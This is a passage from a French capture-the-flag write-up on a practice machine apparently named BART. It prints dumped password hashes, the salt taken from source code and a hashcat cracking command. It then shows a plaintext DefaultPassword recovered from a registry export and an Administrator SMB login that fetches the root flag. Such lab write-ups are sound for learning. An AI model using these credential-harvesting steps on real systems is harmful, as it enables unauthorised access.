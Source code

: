 La table *internal\_chat.users* semblait plus accessible :  

```plain
MySQL [internal_chat]> select * from user;
+-----+--------+------------------------------------------------------------------+
| uid | uname  | passwd                                                           |
+-----+--------+------------------------------------------------------------------+
|   1 | harvey | faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3 |
|   2 | bobby  | e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc |
|   3 | daniel | f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801 |
+-----+--------+------------------------------------------------------------------+
3 rows in set (0.17 sec)
```

On en apprend plus sur ce hash dans *internal-01\simple\_chat\includes\validation\_func.php* :  

```php
	$salt = '8h@tr-waswe_aT#9TaCHuPhU'; //for security reasons please replace this string with your own random string (before attempt to register any user)
	return hash('sha256', $passwd.$salt); //return sha256 hash of the salted password
```

On peut alors stocker les hashs dans un fichier :  

```plain
faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3:8h@tr-waswe_aT#9TaCHuPhU
e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc:8h@tr-waswe_aT#9TaCHuPhU
f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801:8h@tr-waswe_aT#9TaCHuPhU
```

Que l'on passera à hashcat (*hashcat --force -m 1410 -a 3 /tmp/hashes.txt /usr/share/ncrack/top50000.pwd*). Malheureusement on n'en tirera que les mots de passe *potter* et *Password1* :')  

Notez que *Password1* semble être le mot de passe Windows de *h.potter* mais ce dernier est expiré (NT\_SATUS\_PASSWORD\_EXPIRED) et je n'ai pas réussi à le changer...  

halfluke les bons tuyaux ;-)
----------------------------

Sans trop d'idées sur la méthode à employer pour élever mes privilèges j'ai demandé conseil à *halfluke* (un autre participant) qui m'a conseillé de jeter un œil au registre.  

Au lieu de passer du temps à fouiller en direct j'ai fait un gros *reg export* de HKLM. Le fichier texte obtenu est en UTF-16 Windows, il est préférable de le convertir en UTF-8 avec iconv avant lecture :)  

On trouve ainsi une entrée intéressante avec un bon vieux grep sur password :  

```plain
"DefaultPassword"="3130438f31186fbaf962f407711faddb"
```

Ce mot de passe est à utiliser tel quel (ce n'est pas un hash). On peut alors utiliser smbclient (après mise en place d'une redirection de port) pour accéder aux deux flags du système :  

```plain
devloop@kali:~$ smbclient -I 127.0.0.1 -U Administrator '//BART/c$'
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Administrator's password:
Try "help" to get a list of possible commands.
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Sun Feb 11 13:51:05 2018
  ..                                 DR        0  Sun Feb 11 13:51:05 2018
  desktop.ini                       AHS      282  Mon Oct  2 14:08:15 2017
  root.txt                            A       32  Sun Feb 11 13:51:08 2018

        8260095 blocks of size 4096. 3572800 blocks available
smb: \Users\Administrator\Desktop\> get root.txt
getting file \Users\Administrator\Desktop\root.txt of size 32 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
